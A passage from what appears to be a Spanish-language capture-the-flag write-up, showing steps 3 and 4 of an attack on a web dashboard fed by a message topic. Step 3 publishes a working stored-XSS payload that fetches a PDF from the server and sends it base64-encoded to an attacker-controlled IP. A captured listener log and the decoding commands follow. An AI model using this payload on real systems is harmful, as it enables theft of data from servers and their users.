 Obtenemos la programación HTML del cliente y buscamos el último enlace al PDF.

```html
<td>
    <td>2024-09-03T00:22:27.568Z</td>
    <td>
        <a href="?download=true&file=2024-09-03T00%3A22%3A27.568Z.json" class="download-btn">Download PDF</a>
    </td>
</td>
```

### Paso 3

Enviamos el siguiente JSON al topic `data` para obtener en nuestro servicio HTTP el fichero PDF de la URL obtenida en el paso anterior. En nuestro caso, `/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json`.

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => {location.href='http://192.168.1.116?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/?download=true&file=2024-09-03T00%3A22%3A27.568Z.json')).arrayBuffer())));})();\" />",
  "consumedEnergy": 15
}
```

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 02:10:55] "GET /?data=JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAA ... dGFydHhyZWYKMTk0MzEKJSVFT0YK HTTP/1.1" 200 -
```

### Paso 4

Guardamos el código base64 del PDF en un fichero y lo transformamos a PDF.

```bash
$ head -c 100 base64pdf3.txt
JVBERi0xLjQKMSAwIG9iago8PAovVGl0bGUgKP7/AFMAbwBsAGEAcgAgAEUAbgBlAHIAZwB5ACAARABhAHQAYSkKL0NyZWF0b3Ig               
$ cat base64pdf3.txt | base64 -d > document3.pdf
```

Lo abrimos y obtenemos otro código base64, esta vez del fichero PHP cargado localmente por el servidor.
